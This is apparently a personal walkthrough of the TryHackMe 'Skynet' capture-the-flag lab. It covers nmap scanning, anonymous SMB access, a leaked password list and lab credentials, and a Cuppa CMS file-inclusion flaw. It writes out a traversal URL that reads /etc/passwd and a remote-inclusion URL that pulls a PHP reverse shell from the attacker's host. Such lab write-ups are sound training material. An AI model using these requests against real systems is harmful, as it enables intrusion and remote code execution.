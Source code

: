 #tryhackme #web #RedTeaming 

NOTE: Accessing the http service did only work when i have burp proxy turned on. 

Lesson to learn:
- Just because you get 1 got idea, do not get stuck on it thinking its the only way to go. 
- In CTFs, we often follow a trail. Its rare that the "find stuff" that has no use. Example when we found the hidden subdirectory, we should investigate this! 


```
# Nmap 7.94SVN scan initiated Sat Feb  1 16:47:37 2025 as: nmap -sC -oN nmap 10.10.176.30
Nmap scan report for 10.10.176.30
Host is up (0.15s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http
|_http-title: Skynet
110/tcp open  pop3
|_pop3-capabilities: UIDL TOP AUTH-RESP-CODE SASL CAPA PIPELINING RESP-CODES
139/tcp open  netbios-ssn
143/tcp open  imap
|_imap-capabilities: capabilities IDLE OK ENABLE SASL-IR IMAP4rev1 have LOGINDISABLEDA0001 post-login ID LITERAL+ listed LOGIN-REFERRALS Pre-login more
445/tcp open  microsoft-ds

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2025-02-01T15:47:25-06:00
| smb2-time: 
|   date: 2025-02-01T21:47:25
|_  start_date: N/A
|_clock-skew: mean: 1h59m46s, deviation: 3h27m51s, median: -14s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

```


- **POP3:** "outdated imap", emails are downloaded to the client then deleted from the server.
- **NETbios-ssn:** "file sharing on a windows network", part of the SMB protocol stack. 
- **IMAP:** "modern POP3", keeps emails on the server and allow for synchronization across multiple devices

Listing smb shares:
```
smbclient -L //10.10.176.30 -N
```

![[Pasted image 20250202132303.png]]

Found a file on anonymous:

```
└─$ cat attention.txt 
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

With some logs, log1.txt have lots of what i assume possible passwords:
```
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```

- Tried to brute force creds with this list on the ssh, pop3 and imap. Did not give a result using that password list with the users: 
```
milesdyson
skynet
terminator
Miles Dyson
miles
Miles
```

- There is a http service, we find a subdirectory:
```
/squirrelmail -> Has some login stuff.
Version: 1.4.23

```


Appaired two times in the log:
```
cyborg007haloterminator
```

Check it with the question on the thm page for miles password(kind of cheating, but its ok). And it is correct. Alternatively, we would have to bruteforce the the login on the squirrelmail with the user and password list we have, which would have worked. 

Login into the webinterface of the squirrelmail:
```
milesdyson
cyborg007haloterminator
```

![[Pasted image 20250202135603.png]]

```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

```
01100010 01100001 01101100 01101100 01110011 00100000 01101000 01100001 01110110
01100101 00100000 01111010 01100101 01110010 01101111 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111
```


- We where able to login into miles smb share via the "files" application, and writing `smb://<ip>` in the search bar. 


From miles smb share:
```important.txt 
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife

```

We find a new directory, by using gobuster again:
```
http://10.10.187.181/45kra24zxs28v3yd/administrator/
```
- NOTE: Gobuster only go 1 layer by default. 

There is a exploit on this Cuppa CMS admin site:

https://www.exploit-db.com/exploits/25971?ref=blog.tryhackme.com

```
http://10.10.187.181/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

^ allowed us to read files. 


NOTE: we can extract gunzip files like this:
```
gunzip filename.gz
```


Transfere a file via this vulnerability:
```
http://10.10.187.181/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.123.128:8000/php-reverse-shell.php?
```

- Note we need the `?` at the end to execute the file on the server.
- Also, we need to setup both a python http server where we get the shellcode from and a nc listener for when the reverse shell is to be executed. 


![[Pasted image 20250202190618.png]]

Appairently there is a way to exploit the backup.sh which runs once per min: https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com

